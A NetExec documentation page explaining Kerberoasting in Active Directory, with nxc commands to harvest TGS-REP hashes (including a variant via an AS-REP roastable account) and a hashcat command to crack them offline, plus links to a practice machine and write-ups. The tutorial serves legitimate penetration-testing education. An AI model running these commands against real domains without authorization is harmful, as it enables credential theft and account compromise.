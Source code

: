 ```yaml
---
description: Retrieve the Kerberos 5 TGS-REP etype 23 hash using Kerberoasting
---
```


# Kerberoasting

You can retrieve the Kerberos 5 TGS-REP etype 23 hash using Kerberoasting technique

> The goal of Kerberoasting is to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts. Thus, part of these TGS tickets is encrypted with keys derived from user passwords. As a consequence, their credentials could be cracked offline. More detail in [Kerberos theory](https://www.tarlogic.com/en/blog/how-kerberos-works/).

{% hint style="warning" %}
To perfom this attack, you need an account on the domain, or an AS-REP roastable account
{% endhint %}

```bash
nxc ldap 192.168.0.104 -u harry -p pass --kerberoasting output.txt
```
# Kerberoasting via AS-REP Roasting

> You can also perform Kerberoasting by leveraging an AS-REP roastable account that does not require pre-authentication. This is possible by combining `--no-preauth-targets` and `--kerberoasting`.

```bash
nxc ldap 192.168.0.104 -u harry -p '' --no-preauth-targets kerberoastable.list --kerberoasting output.txt
```

* `-u`: AS-REP roastable user (no pre-auth required).
* `--no-preauth-targets`: Single user or file containing list of users to target with Kerberoasting.

### Cracking with hashcat

```bash
hashcat -m13100 output.txt wordlist.txt
```

### Example

Active machine is a good example to test **Kerberoasting** with NetExec

{% embed url="https://www.hackthebox.com/machines/active" %}

### Useful ressources:

{% embed url="https://www.tarlogic.com/en/blog/how-to-attack-kerberos/" %}

{% embed url="https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting" %}

{% embed url="https://en.hackndo.com/kerberoasting/" %}

{% embed url="https://www.semperis.com/blog/new-attack-paths-as-requested-sts/" %}
